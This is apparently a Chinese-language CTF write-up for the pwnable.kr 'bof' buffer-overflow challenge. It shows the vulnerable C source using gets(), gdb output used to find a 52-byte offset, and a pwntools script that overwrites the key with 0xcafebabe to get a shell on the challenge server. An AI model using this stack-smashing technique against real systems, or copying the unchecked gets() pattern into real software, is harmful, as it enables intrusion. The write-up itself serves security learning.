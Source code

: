 ```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

code看一下就知道要想辦法利用overflowme去蓋key，蓋成0xcafebabe

用gdb先看一下

![](https://i.imgur.com/miN6uoJ.png)

很清楚看到

```
0x56555654 <func+40>:        cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

這行就是c code裡面 if(key == 0xcafebabe)

我們可以印出`ebp+0x8`得知key的記憶體位置

```
gdb-peda$ p $ebp+0x8
$1 = (void *) 0xffffd5e0
```
繼續執行會執行 

```
0x5655564f <func+35>:        call   0xf7e6f890 <gets>
```

這時候隨便輸入數字 我輸入1來舉例

![](https://i.imgur.com/t7i4OXa.png)

此時會發現1存入EAX 而且位置是`0xffffd5ac`

0xffffd5ac - 0xffffd5e0 = -52

offset = 52

exploit : 

```python
from pwn import *

r = remote('pwnable.kr', 9000)

payload = 'a'*52 + p32(0xCAFEBABE)

print r.sendline(payload)

r.interactive()
```
